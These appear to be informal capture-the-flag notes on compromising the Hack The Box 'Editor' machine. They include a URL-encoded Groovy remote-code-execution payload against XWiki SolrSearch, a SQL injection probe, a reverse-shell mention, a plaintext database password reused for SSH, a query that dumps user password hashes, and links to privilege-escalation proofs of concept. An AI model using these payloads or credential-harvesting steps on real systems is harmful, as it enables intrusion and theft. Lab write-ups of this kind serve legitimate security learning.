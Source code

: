 ___



*ports open*
22
80
8080



8080/tcp open  http    syn-ack ttl 63 Jetty 10.0.20


*found poc for this*
http://wiki.editor.htb/xwiki/bin/get/Main/SolrSearch?media=rss&text=}}}{{async%20async=false}}{{groovy}}println(%22Exploit%20Successful!%20Result:%20%22%20+%20(23%20+%2019)){{/groovy}}{{/async}}


*this crashes*


*this looks like it worked SQL injection*
http://10.10.11.80:8080/xwiki/rest/liveData/sources/liveTable/entries?sourceParams.template=getdeleteddocuments.vm&sort=injected



Exception while executing query. Query statement = [SELECT ddoc.id FROM XWikiDeletedDocument as ddoc WHERE 1=1 order by SHOW TABLES; asc]



*this works*
https://github.com/advisories/GHSA-rr6p-3pfg-562j

`<host>/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7D%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7Dprintln%28"Hello%20from"%20%2B%20"%20search%20text%3A"%20%2B%20%2823%20%2B%2019%29%29%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D%20`



# this one worked
https://github.com/gunzf0x/CVE-2025-24893

*i have a rev shell!!! yaya*




*hybernate cfg file *

    <property name="hibernate.connection.url">jdbc:mysql://localhost/xwiki?useSSL=false&amp;connectionTimeZone=LOCAL&amp;allowPublicKeyRetrieval=true</property>
    <property name="hibernate.connection.username">xwiki</property>
    <property name="hibernate.connection.password">theEd1t0rTeam99</property>




| caching_sha2_password | $A$005$bvqg> |
| --------------------- | ------------ |
| 8                     |              |
|                       |              |

*chat pulled in clutch rn bc wtf*

SELECT username, password_hash FROM ((SELECT d.XWD_FULLNAME AS username, s.XWS_VALUE AS password_hash FROM xwikiobjects o JOIN xwikiproperties p ON o.XWO_ID = p.XWP_ID JOIN xwikistrings s ON p.XWP_ID = s.XWS_ID JOIN xwikidoc d ON d.XWD_FULLNAME = o.XWO_NAME WHERE o.XWO_CLASSNAME = 'XWiki.XWikiUsers' AND p.XWP_NAME = 'password' AND p.XWP_CLASSTYPE = 'com.xpn.xwiki.objects.StringProperty') UNION ALL (SELECT d.XWD_FULLNAME AS username, xl.XWL_VALUE AS password_hash FROM xwikiobjects o JOIN xwikiproperties p ON o.XWO_ID = p.XWP_ID JOIN xwikilargestrings xl ON xl.XWL_ID = p.XWP_ID JOIN xwikidoc d ON d.XWD_FULLNAME = o.XWO_NAME WHERE o.XWO_CLASSNAME = 'XWiki.XWikiUsers' AND p.XWP_NAME = 'password' AND p.XWP_CLASSTYPE LIKE '%LargeStringProperty%')) t ORDER BY username;





*hash*
| XWiki.neal | hash:SHA-512:dac65976a9f09bcd15bd2c5c6eae4c43b06f316be7ae6b191db26580b1211bef:6b8f547e3742e998380da4f9d426773430a7982a946b9bfd94da0d7abe0d472c5ff08fcb8b0a908bc293da82298053ba348872099bd88f059a7838c38b670153 |
| ---------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| XWiki.neal | Bagwell                                                                                                                                                                                                        |
| XWiki.neal |                                                                                                                                                                                                                |
| XWiki.neal |                                                                                                                                                                                                                |
| XWiki.neal | Neal                                                                                                                                                                                                           |
| XWiki.neal | neal@editor.htb                                                                                                                         




*this was the password for oliver on ssh brughhhhhh*
theEd1t0rTeam99


*is this it?*
Netdata Agent: v1.45.2



*this is it*
https://github.com/AliElKhatteb/CVE-2024-32019-POC



NETDATA is pretty cool for system monitoring ngl, the agents and then the main cloud controller ptty cool